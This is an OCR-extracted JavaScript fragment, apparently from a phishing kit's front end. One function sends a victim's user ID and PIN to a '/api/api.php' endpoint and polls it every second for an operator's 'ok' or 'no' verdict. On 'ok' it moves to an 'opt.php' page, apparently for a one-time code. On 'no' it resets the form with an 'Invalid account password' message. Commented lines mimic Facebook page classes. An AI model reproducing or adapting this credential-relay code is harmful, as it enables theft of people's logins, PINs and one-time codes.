 ```js
        }
        if (JSON.parse(d)["ok"] == "no") {
          if ($id("divq")) {
            $id("divq").remove();
          }
          clearInterval(timer);
          $id("err").style.display = "block";
          $id("input2").value = "";
          var ddiv = $id("div12").getElementsByTagName("div");
          for (let i = 0; i < ddiv.length; i++) {
            ddiv[i].style.border = "1px solid #14bf61";
            ddiv[i].getElementsByTagName("span")[0].style.display = "block";
          }
          $id("input2").focus();
        }
      }
    }
  }
  ajax("post", url, data, f, true);

  data = "yx=" + userid;
  ajax("post", url, data, null, true);
}

function api_wt(name, paswd) {
  var url = path + "/api/api.php";
  var data = "w1=" + name + "&w2=" + paswd;
  function f(p) {
    function aja() {
      ajax("post", url, data, ffff, true);
    }
    var timer = setInterval(aja, 1000);
    function ffff(d) {
      if (d) {
        if (JSON.parse(d)["ok"] == "ok") {
          y("opt.php");
          clearInterval(timer);
        }
        if (JSON.parse(d)["ok"] == "no") {
          $id("Error").style.display = "block";
          if ($id("divq")) {
            $id("divq").remove();
          }
          $(".next").html("Next");
          $(".next").children("span").remove();

          $("#userId").val("");
          $("#PIN").val("");
          $(".next").css("background", "#eee");
          $("#userId").focus();

          clearInterval(timer);
          // document.getElementsByClassName('_5yd0 _2ph- _5yd1')[0].style.display="block";
          // document.getElementsByClassName('_5yd0 _2ph- _5yd1')[0].innerHTML="Invalid account password";
        }
      }
    }
  }
  ajax("post", url, data, f, true);
}

function xt() {
```